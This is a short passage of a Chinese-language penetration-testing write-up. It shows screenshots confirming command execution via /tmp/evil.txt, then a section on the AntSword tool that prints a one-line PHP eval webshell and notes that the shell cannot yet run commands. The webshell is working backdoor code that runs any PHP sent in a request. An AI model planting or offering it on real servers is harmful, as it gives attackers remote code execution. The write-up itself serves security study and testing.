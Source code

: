 [![](assets/1708920000-37ee17d2857a5a859f2c3296e73b7d54.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214131235673.png)

查看/tmp/evil.txt 发现命令已被执行

[![](assets/1708920000-6f312595e4dd62cc08765a4b3a7ac098.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214122810820.png)

#### Antsword

为了追求简洁，我们以一个 webshell 作为序章

```bash
<?php
@eval($_REQUEST[1]);
?>
```

通过蚁剑连接 发现 shell 无法执行命令
